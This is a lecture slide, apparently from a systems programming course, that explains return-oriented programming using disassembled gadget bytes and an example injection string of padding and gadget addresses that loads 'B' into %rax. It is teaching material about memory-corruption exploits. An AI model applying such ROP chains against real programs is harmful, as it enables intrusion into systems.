

# ROP Injection String
…
  400665:   b8 00 00 00 00
  40066a:   48 83 c4 08
  40066e:   c3
…
Sometimes have to be circuitous
Example, to place 'B' in %rax:
/* fill buffer & padding */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
/* start rop addresses */
65 06 40 00 00 00 00 00 // mov $0x0, %eax; add $0x8,%rsp
00 00 00 00 00 00 00 00 // filler
68 05 40 00 00 00 00 00 // pop %rbp
42 00 00 00 00 00 00 00 // value to be placed in %al
06 60 40 00 00 00 00 00 // add %bpl, %al
…
…
  400568:   5d
  400569:   c3
…
Slide by Bohn
…
  400603:   bf 4f 07 40 00
  400608:   e8 c3 fe ff ff
…
Programming at the Hardware/Software Interface
47